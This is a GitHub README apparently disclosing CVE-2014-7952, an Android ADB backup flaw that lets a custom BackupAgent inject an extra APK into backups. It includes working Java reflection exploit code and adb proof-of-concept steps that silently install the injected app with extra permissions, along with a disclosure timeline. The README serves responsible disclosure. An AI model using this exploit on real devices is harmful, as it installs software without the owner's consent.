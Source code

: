# ADB-Backup-APK-Injection
Android ADB backup APK injection vulnerabilty discovered by and POC created by Imre Rad, SEARCH-LAB Ltd., Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application (since it is part of the backup archive and the system believes it is authentic).

The Backup Manager can be exploited through simple reflection to inject the arbitrary additional APK:

```
// package name of the application to be injected. This will be one of the arguments of backupToTar() method
String packageName = "com.searchlab.wifitest"; 

Method backupToTar;
Method getData;
try {
	// looking up the internal Classes
	Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");
	Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
	
	// fetching reference to the backupToTar method and making it accessible for us
	backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
	backupToTar.setAccessible(true);		
	
	// we also need getData() method
	getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
	getData.setAccessible(true);
	
	// and now let the magic begin!
	Object backupData = getData.invoke(data);
	backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
	backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
	
	// that's all, folks
	Log.v("MYBACKUP", "backuptotar invoked!");
	
} catch (Exception e) {
	e.printStackTrace();
}
```

Who is affected?
----------------
The vulnerability resides in the backup mechanism of the Android operating system. Anyone using adb for creating restoring backups of their handsets might be affected. One could think that command line applications are used by geeks or programmers only, but not necessarily, there are Windows GUI applications which rely on the same technology behind the scenes when creating backups or restoring them.
The malware might come from an innocent looking game without any suspicion as it claims to need no permissions at all. As soon as backup was created, the archive is infected.

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):

![ADB Backup Injection, custom BackupAgent](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-backupagenttest2.png "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

(You could create a full system backup as well, the exploit would be still successful.)

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```
![ADB Backup Injection, the tar file with the injected content](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-tar-file.png "ADB Backup Injection, the tar file with the injected content")

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Since the backup.ap file already contains the injected application, it will be restored (installed) as well.

Step 5: Verify that Wifi Test application was indeed installed.
The application runs with android.permission.CHANGE_WIFI_STATE and android.permission.ACCESS_WIFI_STATE permissions to demonstrate that privilege escalation was also possible.

![ADB Backup Injection, injected application](https://raw.githubusercontent.com/irsl/ADB-Backup-APK-Injection/master/android-backup-injection-wifitest.png "ADB Backup Injection, injected application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today (2015-07-08), all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team

2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it

2014-10-13: Asked Google for status update and requested a cup or a mug for being patient

2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it. Got a promise about asking around for a mug

(Several more ping-pong emails without any new info, neither a mug)

2015-06-02: Google promised further info in a few days, but it never arrived
